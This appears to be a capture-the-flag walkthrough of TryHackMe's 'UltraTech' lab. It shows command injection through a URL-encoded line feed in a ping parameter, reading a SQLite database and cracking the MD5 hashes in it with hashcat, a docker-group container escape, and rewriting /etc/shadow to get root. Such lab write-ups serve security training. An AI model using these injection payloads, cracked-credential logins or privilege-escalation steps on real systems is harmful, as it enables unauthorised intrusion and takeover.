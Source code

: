 ```yaml
---
date: 2025-01-03
categories: [CTF, THM]
title: "THM - UltraTech"
tags: ['docker breakout', 'gobuster', 'hashcat', 'nmap', 'privilege escalation', 'rce', 'sqli']

description: "UltraTech - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - UltraTech

NMAP
```bash
nmap 10.10.200.110 -p- -T5
```

![image1](../resources/336adee1e2a847c7bca8480b6abebc97.png)

```bash
nmap 10.10.200.110 -p 31331 -A
```

![image2](../resources/29ecbbb1da6341daa229d6034f4d8ee3.png)

- Directory bruteforcing:

```bash
gobuster dir -u http://10.10.200.110:8081 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image3](../resources/f6280d75e7ba4a19889faa87d2aee99d.png)

```bash
gobuster dir -u http://10.10.200.110:31331 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image4](../resources/b77d1e1548394ea39d343f7fa0244801.png)

/robots.txt


![image5](../resources/8ec45d670672469f8de522d57b5c73fd.png)

/utech_sitemap.txt


![image6](../resources/a7f0c6ca8c72487bb0ce1977835565fb.png)

/partners.html


![image7](../resources/8ea6a40830084b6488e6907a835d49fd.png)

Got a login page

- Look at traffic in Burp
Looking at  `http://10.10.200.110:31331/partners.html`

The site constantly pings to see if the server is online


![image8](../resources/04192fa6ad5340638b54a7509fbae77a.png)

- Changing the parameters of the GET request we can get RCE

[URL encoding cheatsheet](https://www.eso.org/~ndelmott/url_encode.html)

- Normal space is url encoded as **%20**

- A **line feed** (0x0A) is url encoded as **%0A**
A line feed means moving one line forward. The code is **\n**

- You need to use a line feed character (**\n**) URL encoded because a normal space doesn't work

```bash
GET /ping?ip=10.10.200.110%0Als

```

![image9](../resources/7c03b9d409cc454ba470967f25716186.png)

```bash
GET /ping?ip=10.10.200.110%0Acat%20utech.db.sqlite

```

![image10](../resources/ba3f82b8006d4285ab4f9e60d344cce1.png)

(ignore the M before the names)

Found hashes:

**r00t : f357a0c52799563c7c7b76c1e7543a32**

**admin : 0d0ea5111e3c1def594c1684e3b9be84**

```bash
hash-identifier

```

![image11](../resources/603611db9b3d434cb445ee17cce637fe.png)


![image12](../resources/4da5a4e986fb4298abb1dccf4b8a7d3a.png)

- Crack with hashcat
```bash
hashcat -m 0 -a 0 hashes /usr/share/wordlists/rockyou.txt

```

![image13](../resources/ce79b4f12e29423b8e2f3a9ee2f41500.png)

- Credentials:
**r00t : n100906**

**admin : mrsheafy**

- SSH with r00t

![image14](../resources/2b769bfa5fdc49cc8c8f54a4bab7f530.png)


![image15](../resources/95fc6f33053545219c13463a93df6f13.png)
- We can see we are in the docker group

- **<u>Escape the container:</u>**

```bash
docker images

```

![image16](../resources/e70b9fee7aff4f11b8061dc5b34fc431.png)

- **<u>In Practise:</u>**

- Check gtfobins <https://gtfobins.github.io/gtfobins/docker/> for the command:


![image17](../resources/294a17f538654586a8ece330796ca81d.png)

- If we run this command we'll get an error:

![image18](../resources/3b2e0202b0394cf2b17cd2b78fea5eb7.png)

- So we need to list the available images:

```bash
docker ps -a

```

![image19](../resources/9866d3f6063d4a248c1d6726631f6379.png)

- Change the image name to **bash**

**Option 1 - command:**

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh

What this command does is, it creates a new container and mounts the entire ultratech-prod filesystem / to this container

```

![image20](../resources/7d683de391344a229b39081e78df1286.png)

**Option 2 - Command:**

```bash
docker run -v /:/mnt -it bash
```
What this command does is similar to Option 1, it creates a new container and mounts the entire ultratech-prod filesystem **/**. But it mounts it to **/mnt** on the container



![image21](../resources/2f7d8f390a9e4cf9b741c39d94275e78.png)


![image22](../resources/6e29f47e114f41b4a123e28a045d69ef.png)

- **We are root (in the container)**
- We can now read all the root files

- <u>To get root on the host machine (using Option 1):</u>

- On Kali - Make a MD5 hash:

```bash
mkpasswd -m md5 pass123

```

![image23](../resources/8725cc9f13d94b6682a120a9970ceec0.png)

- On the target - in the container (because we're root now)
  
```bash
vi /etc/shadow

```
Press **i** (for insert)

Remove the hash of the root user (second field) and replace with the hash you made


![image24](../resources/5dbfc491ee1545f6b2e3408768a6efd4.png)

```bash
Press ESC

Press :wq

ENTER

```
- exit out of the container
```bash
exit

```
```bash
su root
```
Enter password you made


![image25](../resources/4624215e87734191914682913d6ab4dc.png)


![image26](../resources/59e067c95da64a05be4f3853aefdb08f.png)
